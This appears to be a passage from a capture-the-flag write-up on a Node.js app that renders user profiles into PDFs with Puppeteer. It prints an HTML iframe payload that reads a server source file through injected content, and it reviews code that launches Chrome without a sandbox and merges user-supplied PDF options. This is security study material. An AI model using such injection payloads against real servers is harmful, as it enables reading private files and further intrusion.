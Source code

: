 Let's revisit the code from `/app/routes/index.js`. Specifically, the `generate-profile-card` POST request.
```js
router.post("/profile/generate-profile-card", requireAuth, async (req, res) => {
    const pdf = await generatePDF(req.userData, req.body.userOptions);
    res.contentType("application/pdf");
    res.send(pdf);
});
```

We already knew that our `userData` would be inserted to the PDF (that's how we were able to inject code), but what's this `userOptions` parameter? Let's go find out!
### app/utils/generateProfileCard.js
```js
<iframe src="/app/utils/generateProfileCard.js" style="width: 999px; height: 999px"></iframe>
```

We found this endpoint earlier when checking `/app/routes/index.js`. 
```js
const puppeteer = require("puppeteer");
const fs = require("fs");
const path = require("path");
const { v4: uuidv4 } = require("uuid");
const Handlebars = require("handlebars");
const generatePDF = async (userData, userOptions) => {
    let templateData = fs.readFileSync(
        path.join(__dirname, "../views/print_profile.handlebars"),
        {
            encoding: "utf8",
        }
    );
    const template = Handlebars.compile(templateData);
    const html = template({ userData: userData });
    const filePath = path.join(__dirname, `../tmp/${uuidv4()}.html`);
    fs.writeFileSync(filePath, html);
    const browser = await puppeteer.launch({
        executablePath: "/usr/bin/google-chrome",
        args: ["--no-sandbox"],
    });
    const page = await browser.newPage();
    await page.goto(`file://${filePath}`, { waitUntil: "networkidle0" });
    await page.emulateMediaType("screen");
    let options = {
        format: "A5",
    };
    if (userOptions) {
        options = { ...options, ...userOptions };
    }
    const pdf = await page.pdf(options);
    await browser.close();
    fs.unlinkSync(filePath);
    return pdf;
};
module.exports = { generatePDF };
```
